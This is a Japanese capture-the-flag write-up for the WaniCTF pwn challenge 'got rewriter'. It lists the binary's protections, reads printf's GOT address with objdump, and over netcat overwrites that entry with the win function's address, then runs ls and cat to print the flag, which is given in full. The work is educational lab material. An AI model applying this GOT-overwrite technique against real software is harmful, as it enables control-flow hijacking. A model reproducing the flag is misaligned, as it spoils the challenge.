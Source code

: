 # got rewriter:PWN:104pts
nc got.wanictf.org 9004  
- global offset table (GOT)の仕組みを理解する必要があります。  
- objdump -d -M intel ./pwn04 | less  

使用ツール例  
- [netcat (nc)](https://github.com/wani-hackase/memo-setup-pwn-utils#netcat)  
- [objdump](https://github.com/wani-hackase/memo-setup-pwn-utils#objdump)  

セキュリティ保護  
- Partial RELocation ReadOnly (RELRO)  
- Stack Smash Protection (SSP)有効  
- No eXecute bit(NX)有効  
- Position Independent Executable (PIE)無効  

[pwn04](pwn04)　　　　[pwn04.c](pwn04.c)  

# Solution
接続すると以下のようにアドレスを書き換えられるようだ。  
```bash
$ nc got.wanictf.org 9004
Welcome to GOT rewriter!!!
win = 0x400807
Please input target address (0x600e10-0x6010b0): 0x0
Your input address is 0x0.
you can't rewrite 0x0!
Please input target address (0x600e10-0x6010b0): 0x600e10
Your input address is 0x600e10.
Please input rewrite value: 0
Your input rewrite value is 0x0.

*0x600e10 <- 0x0.


Segmentation fault (core dumped)
```
問題名の通り、gotを書き換えwinに飛ばしてやる。  
まずはobjdumpで確認する。  
```bash
$ objdump -d -M intel ./pwn04 | less
~~~
00000000004006d0 <printf@plt>:
  4006d0:       ff 25 62 09 20 00       jmp    QWORD PTR [rip+0x200962]        # 601038 <printf@GLIBC_2.2.5>
  4006d6:       68 04 00 00 00          push   0x4
  4006db:       e9 a0 ff ff ff          jmp    400680 <.plt>
~~~
```
printfが0x601038のようなので、そこを以下のように書き換える。  
```bash
$ nc got.wanictf.org 9004
Welcome to GOT rewriter!!!
win = 0x400807
Please input target address (0x600e10-0x6010b0): 0x601038
Your input address is 0x601038.
Please input rewrite value: 0x400807
Your input rewrite value is 0x400807.

*0x601038 <- 0x400807.


congratulation!
ls
chall
flag.txt
redir.sh
cat flag.txt
FLAG{we-c4n-f1y-with-gl0b41-0ffset-tab1e}
^C
```
flagが得られた。  

## FLAG{we-c4n-f1y-with-gl0b41-0ffset-tab1e}
